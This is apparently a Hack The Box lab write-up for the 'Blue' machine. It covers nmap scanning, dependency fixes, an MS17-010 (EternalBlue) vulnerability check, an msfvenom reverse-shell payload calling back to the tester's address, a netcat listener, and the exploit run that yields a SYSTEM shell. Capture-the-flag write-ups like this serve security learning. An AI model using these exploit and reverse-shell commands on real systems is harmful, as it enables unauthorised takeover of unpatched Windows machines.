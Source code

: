 ```yaml
---
title: "HTB Blue"
date: 2022-18-12T18:22:03-05:00
draft: false
---
```


#### Initial nmap

```bash
nmap -p -T5 $IP

PORT      STATE    SERVICE
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
2903/tcp  filtered extensisportfolio
6851/tcp  filtered unknown
10686/tcp filtered unknown
43145/tcp filtered unknown
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49156/tcp open     unknown
49157/tcp open     unknown
51772/tcp filtered unknown
56599/tcp filtered unknown
56912/tcp filtered unknown
61146/tcp filtered unknown
64705/tcp filtered unknown
```

#### Concentrated nmap

```bash
sudo nmap -p 135,139,445,2903,6851,10686,43145,49152,49153,49154,49155,49156,49157,51772,56599,56912,61146,64705 -A -T5 $IP

PORT      STATE  SERVICE           VERSION                                                                                                                                                                                                  
135/tcp   open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
139/tcp   open   netbios-ssn       Microsoft Windows netbios-ssn                                                                                                                                                                            
445/tcp   open   microsoft-ds      Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                                                                                                           
2903/tcp  closed extensisportfolio                                                                                                                                                                                                          
6851/tcp  closed unknown                                                                                                                                                                                                                    
10686/tcp closed unknown                                                                                                                                                                                                                    
43145/tcp closed unknown                                                                                                                                                                                                                    
49152/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49153/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49154/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49155/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49156/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
49157/tcp open   msrpc             Microsoft Windows RPC                                                                                                                                                                                    
51772/tcp closed unknown                                                                                                                                                                                                                    
56599/tcp closed unknown                                                                                                                                                                                                                    
56912/tcp closed unknown                                                                                                                                                                                                                    
61146/tcp closed unknown                                                                                                                                                                                                                    
64705/tcp closed unknown                                                                                                                                                                                                                    
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (99%), Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (96%)                                                                                                                                                                  
No exact OS matches for host (test conditions non-ideal).                                                                                                                                                                                   
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-12-18T19:42:20
|_  start_date: 2022-12-18T19:34:24
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-18T19:42:19+00:00
|_clock-skew: mean: 2s, deviation: 1s, median: 1s

TRACEROUTE (using port 51772/tcp)
HOP RTT      ADDRESS
1   41.17 ms 10.10.14.1
2   41.24 ms 10.129.30.209
```

A lot of information comes back from the nmap scan, however the version that comes back on port 445 show us it is a windows 7 machine. With it being Win7 I believe it is valuable to check for EternalBlue.

(From the nmap scan above)
`Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)`

#### Finding & Exploiting Eternal Blue

Using a script from this repo I can gather the information needed to verify whether the machine is vulnerable to MS17-010 (EternalBlue). Not without a few issues first however.

Firstly, because the command python is pointed to python3 in the 2022.4 version of kali we much modify/add the shebang line at the top of each script we use to say `#!/usr/bin/python2`

Now that this is fixed I am receiving the following error - 
![[Pasted image 20221218141024.png]]

To fix this error I will clone impacket into the same working directory as the previous scripts `/htb/windows/blue/MS17-010` . This may vary depending on your workspace & how you have things setup in your environment.

#### Installing impacket -  
*This will require pip for python2*
To install pip for python2 run these commands
```bash
sudo apt update
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
```

Once finished continue to install impacket.

Step 1 - Clone the github repository
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
```

Step 2 - cd into the directory
```bash
cd impacket
```

Step 3 - install impacket using pip 
```bash
python2 setup.py install
```

Impacket has successfully installed however I am receiving another error.
![[Pasted image 20221218142604.png]]

I must install this dependencies as well.

```bash
pip2 install pyasn1_modules
```

Again for Cryptodome.Hash

```bash
pip2 install cryptodome && pip2 install cryptodomex
```

#### Running the script

```bash
./checker.py $IP

Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

#### Creating a reverse shell using an msfvenom payload

```bash 
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.88 LPORT=443 > svc_host.exe
```

#### Start netcat listener

```bash
nc -lvnp 443
```

#### Run send_and_execute.py

```bash
./send_and_execute.py $IP ../svc_host.exe 445 lsarpc
```

![[Pasted image 20221218144853.png]]

Looks like an access denied error. I will try and edit the script and add `guest` to the username line, and leave the password blank.

![[Pasted image 20221218145035.png]]

Now I will rerun the script.

It completed succesfully, and i now have a reverse shell.

![[Pasted image 20221218145224.png]]

#### Post-Exploit - 

![[Pasted image 20221218145359.png]]

I am `nt authority\system`. This machine is rooted and complete. The flags can be found on the Desktop's of the user & administrator! 